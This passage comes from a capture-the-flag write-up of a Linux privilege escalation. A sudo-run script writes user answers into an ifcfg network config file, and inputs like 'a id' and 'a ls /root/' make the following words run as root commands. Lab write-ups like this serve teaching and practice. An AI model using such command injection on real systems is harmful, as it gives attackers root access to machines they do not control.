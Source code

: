 ```
```

But the ifcfg file did write:

```

[guly@networked ~]$ cat /etc/sysconfig/network-scripts/ifcfg-guly
cat /etc/sysconfig/network-scripts/ifcfg-guly
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
NAME=0xdf
PROXY_METHOD=notamethod
BROWSER_ONLY=yes
BOOTPROTO=pineapple

```

I ran it again with some funny answers, and got some weird `command not found` messages:

```

[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
0xdf
interface PROXY_METHOD:
not a method
interface BROWSER_ONLY:
no thanks
interface BOOTPROTO:
yes
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: a: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: thanks: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 5: a: command not found
/etc/sysconfig/network-scripts/ifcfg-guly: line 6: thanks: command not found
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.

```

Twice it is trying to run `a` and `thanks`. Those are words in my input. I’ll try with commands:

```

[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
a id
interface PROXY_METHOD:
a ls /root/
interface BROWSER_ONLY:
a pwd
interface BOOTPROTO:
a whoami
uid=0(root) gid=0(root) groups=0(root)
root.txt
/etc/sysconfig/network-scripts
root
uid=0(root) gid=0(root) groups=0(root)
root.txt
/etc/sysconfig/network-scripts
root
ERROR     : [/etc/sysconfig/network-scripts/ifup-eth] Device guly0 does not seem to be present, delaying initialization.

```
